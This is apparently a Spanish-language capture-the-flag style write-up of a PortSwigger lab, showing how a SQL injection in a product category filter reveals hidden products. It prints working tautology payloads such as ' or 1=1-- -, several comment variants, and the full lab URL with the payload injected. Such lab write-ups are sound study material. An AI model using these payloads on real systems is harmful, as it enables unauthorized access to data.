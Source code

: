 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

### Explicación:

- Esta en la query original:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

- Y al final se termina "rompiendo" así _(quitando esas condicionales muahaha!)_:

````sql
SELECT * FROM products WHERE category = 'Gifts' or 1 = 1 -- AND released = 1 (soy la noche :P)
````

El payload se inyecta en donde se pone el nombre del artículo o sección:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)


---

### Ejemplo con lab:

En realidad el query está diseñado para solo arrojar un resultado específico, por ejemplo:

````sql
# Ejemplo Original: 
select id,username from users where subscription = '1' and id = 5;
````
````py
# Arroja solo un resultado
   ## subscription = 1
   ## id = 5

+----+----------+
| id | username |
+----+----------+
|  5 | Ff0ur    |
+----+----------+
````

### Resultado final

- Con el payload `' or 1 = 1 --` o`' or 1 = 1-- -` o `' or 1 = 1-- -'` o `' or 1 = 1'-- -` _(o alguna de sus variantes de comentarios)_ es como "romperé" el query:
- Es decir, con este payload le estoy pidiendo en la query que regrese el `id=5` (osea solo `Ff0ur`) o todo donde sea `1=1` (osea `true`)... osea todo!!! porque todo es true!!!!!! muahaha!! ;)

````sql
# Ejemplo Final: (ya con SQLi)
select id,username from users where subscription = '1' or 1 = 1;-- - and id = 5 (aqui incluso puede ir otro query original que elimino, ya que es un comentario!!! :P);
````
````py
# Arroja todos los usernames y ids, sin condicionales!!
+----+----------+
| id | username |
+----+----------+
|  1 | Fz3r0    |
|  2 | F0n3     |
|  3 | Ftw0     |
|  4 | Fthr33   |
|  5 | Ff0ur    |
|  6 | Ff1v3    |
+----+----------+
````

- OJO! en consola de `mysql` se deben poner los `;`, pero en web no.

## Solución:

1. Importante ir a un directorio donde sea vulnerable _(en este caso son las secciones)_

2. Query que usé

````sql
'or 1=1-- -
````
````http
https://0a83007b03adf85d811702c2004f0064.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/2d654adb-8e7f-41eb-b8fc-84c9935c3e83)




